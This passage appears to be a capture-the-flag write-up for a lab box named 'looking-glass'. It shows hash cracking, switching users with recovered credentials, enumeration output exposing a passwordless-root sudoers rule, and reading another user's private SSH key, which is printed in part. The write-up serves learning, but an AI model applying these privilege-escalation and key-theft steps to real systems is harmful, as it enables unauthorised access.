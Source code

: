 3. Using the common tool [CrackStation](https://crackstation.net/), we get that all of them are recoverable but one. We also get hint to get password for the user.

## HORIZONTAL ESC - HUMPTYDUMPTY

1. We can `su` into user humptydumpty with our new [creds](creds.txt). There is a twist. Find it out.

2. Going thorugh the results of the [linpeas](ssh/tmp/linpeas-humptydumpty.out) and [linux smart enumeration ](ssh/tmp/lse-humptydumpty.out), it is clear that second tool won. JK. But found us a lead. Let's go for alice.

```bash
[!] sud020 Can we sudo with a password?.................................... nope
[!] sud030 Can we list sudo commands with a password?...................... nope
[*] sud040 Can we read sudoers files?...................................... yes!
---
/etc/sudoers.d/alice:alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
```
3. We bashed our head around and also checked all our results [here](ssh/tmp). We finally foudn that the `alice` user's directory is inaccesbile but can reads the iinner contents.

```bash
humptydumpty@looking-glass:~$ cd /home/
humptydumpty@looking-glass:/home$ cat alice/.config
cat: alice/.config: No such file or directory
humptydumpty@looking-glass:/home$ cat alice/.bash_logout
# ~/.bash_logout: executed by bash(1) when login shell exits.

# when leaving the console clear the screen to increase privacy

if [ "$SHLVL" = 1 ]; then
    [ -x /usr/bin/clear_console ] && /usr/bin/clear_console -q
fi
```

3. We also find out that the ssh key for the alice user is indeed stored and created by our user. Lety's get that.

```bash
humptydumpty@looking-glass:/home$ ls -la alice/.bashrc
-rw-r--r-- 1 alice alice 3771 Jul  3  2020 alice/.bashrc
humptydumpty@looking-glass:/home$ ls -la alice/.ssh/id_rsa
-rw------- 1 humptydumpty humptydumpty 1679 Jul  3  2020 alice/.ssh/id_rsa
humptydumpty@looking-glass:/home$ cat alice/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpgIBAAKCAQEAxmPncAXisNjbU2xizft4aYPqmfXm1735FPlGf4j9ExZhlmmD
NIRchPaFUqJXQZi5ryQH6YxZP5IIJXENK+a4WoRDyPoyGK/63rXTn/IWWKQka9tQ
2xrdnyxdwbtiKP1L4bq/4vU3OUcA+aYHxqhyq39arpeceHVit+jVPriHiCA73k7g
HCgpkwWczNa5MMGo+1Cg4ifzffv4uhPkxBLLl3f4rBf84RmuKEEy6bYZ+/WOEgHl
fks5ngFniW7x2R3vyq7xyDrwiXEjfW4yYe+kLiGZyyk1ia7HGhNKpIRufPdJdT+r
NGrjYFLjhzeWYBmHx7JkhkEUFIVx6ZV1y+gihQIDAQABAoIBAQDAhIA5kCyMqtQj
X2F+O9J8qjvFzf+GSl7lAIVuC5Ryqlxm5tsg4nUZvlRgfRMpn7hJAjD/bWfKLb7j
/pHmkU1C4WkaJdjpZhSPfGjxpK4UtKx3Uetjw+1eomIVNu6pkivJ0DyXVJiTZ5jF
ql2PZTVpwPtRw+RebKMwjqwo4k77Q30r8Kxr4UfX2hLHtHT8tsjqBUWrb/jlMHQO
zmU73tuPVQSESgeUP2jOlv7q5toEYieoA+7ULpGDwDn8PxQjCF/2QUa2jFalixsK
WfEcmTnIQDyOFWCbmgOvik4Lzk/rDGn9VjcYFxOpuj3XH2l8QDQ+GO+5BBg38+aJ
cUINwh4BAoGBAPdctuVRoAkFpyEofZxQFqPqw3LZyviKena/HyWLxXWHxG6ji7aW
DmtVXjjQOwcjOLuDkT4QQvCJVrGbdBVGOFLoWZzLpYGJchxmlR+RHCb40pZjBgr5
8bjJlQcp6pplBRCF/OsG5ugpCiJsS6uA6CWWXe6WC7r7V94r5wzzJpWBAoGBAM1R
aCg1/2UxIOqxtAfQ+WDxqQQuq3szvrhep22McIUe83dh+hUibaPqR1nYy1sAAhgy
wJohLchlq4E1LhUmTZZquBwviU73fNRbID5pfn4LKL6/yiF/GWd+Zv+t9n9DDWKi
WgT9aG7N+TP/yimYniR2ePu/xKIjWX/uSs3rSLcFAoGBAOxvcFpM5Pz6rD8jZrzs
SFexY9P5nOpn4ppyICFRMhIfDYD7TeXeFDY/yOnhDyrJXcbOARwjivhDLdxhzFkx
X1DPyif292GTsMC4xL0BhLkziIY6bGI9efC4rXvFcvrUqDyc9ZzoYflykL9KaCGr
+zlCOtJ8FQZKjDhOGnDkUPMBAoGBAMrVaXiQH8bwSfyRobE3GaZUFw0yreYAsKGj
oPPwkhhxA0UlXdITOQ1+HQ79xagY0fjl6rBZpska59u1ldj/BhdbRpdRvuxsQr3n
```